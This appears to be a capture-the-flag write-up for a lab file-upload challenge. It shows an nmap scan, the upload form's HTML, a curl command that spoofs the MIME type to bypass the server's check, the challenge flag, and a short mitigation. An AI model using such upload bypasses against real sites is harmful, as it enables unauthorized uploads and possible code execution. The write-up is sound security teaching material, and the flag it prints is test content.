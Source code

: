 # <span style="text-decoration: underline"> File Upload </span>

- Tags : `file` , `image` , `upload`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>
___


## <span style="text-decoration: underline">problem</span>

During our `nmap` scans from other challenges we found out that there exists different pages

```bash
$ sudo nmap -q --script=http-csrf   192.168.1.23

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-25 21:17 CEST
Nmap scan report for 192.168.1.23
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.23
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.23:80/?page=signin
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=upload
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=member
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=searchimg
|     Form id: 
|_    Form action: #
4242/tcp open  vrml-multi-use
MAC Address: 08:00:27:CD:44:94 (Oracle VirtualBox virtual NIC)
```

> For this write we will be intereseted on `http://192.168.1.23:80/?page=upload`

i> We can also access this page using the `ADD IMAGE` button from the **home page**

When we visit the **upload** page (http://192.168.1.23:80/?page=upload) we see the following
![upload page](/.resources/images/upload_index.png)

We can see there is a `brows` button and there is a `UPLOAD` button. On top of all the button it says **Choose an image to upload**. From this we can guess that we have to upload an **image** file.

When we try to upload a `png` image file it shows the following message **`Your image was not uploaded.`**. It didn't work for us. When we change the extention from `png` to `jpeg` and try to upload again it shos the following message **`/tmp/img.jpeg succesfully uploaded.`**. It seems like the server do not verify the content of the file when we upload them but it verifies the extention. To prouve our theory we create an empty file and give it the name `any.jpeg` and try to upload it. It gives us the following message **`/tmp/any.jpeg succesfully uploaded.`**.

?> This is is typically the situation for website that shows the raw image that you upload them. In many occasion in the old days we could find website that let you upload images and you could see those images using the url of the image in `raw` format. By `raw` i mean it is not treated or modified nor it is shown using a program. it is shows directly from the uploaded directory. In this kind of situation hackers used to upload `php` scripts (because most of those sites ware made using `php` programs) and as the name of the file was not modified, to execute the uploaded `php` scripts only by eccessing the url.

!> In our case it seems like the extention of the file has to be `jpeg` or `jpg` to upload it through the means they have given us.

When we inspect the `form` for upload we find the following `html` code
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```
Where we see that the form uses the following fields do the `POST` request

|Key|Value|
|---|-----|
|MAX_FILE_SIZE|100000|
|uploaded| [Our "image" file that we want to upload]|
|Upload|Upload|

!> Sadly we can not modify the `input` type to `image` so that we can **try** to fool the server to think the uploaded element is an image

## <span style="text-decoration: underline">Solution</span>

Using curl we can easily upload a file with a the `type` name we want. Here is our command to do that

```bash
url -s -F "uploaded=@img.png;type=image/jpeg" -F Upload=Upload "http://192.168.1.23/?page=upload" | grep flag
```
|Option|Description|
|--|--|
|`-s` | Silent|
|`-F`|( — form) option, which will add `enctype=”multipart/form-data”` to the request.|

this gives us the following result

```bash
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/img.png succesfully uploaded.</pre>
```
?> We use the `;type=image/jpeg` to tell the server that this has a file type of an `image` 
?> After some playing arround we can see that the `MAX_FILE_SIZE` parameter is not needed.

# How to avoid the problem
This kind of problem could be evoided by not only checking the file `extention` but also by checking the type of file by looking inside the file's content.


# Flag

```text
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


# Resources
- [Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
- [File type using CURL](https://stackoverflow.com/a/4074949/4440716)
- [Send a file via POST with cURL and PHP](https://blog.derakkilgo.com/2009/06/07/send-a-file-via-post-with-curl-and-php/)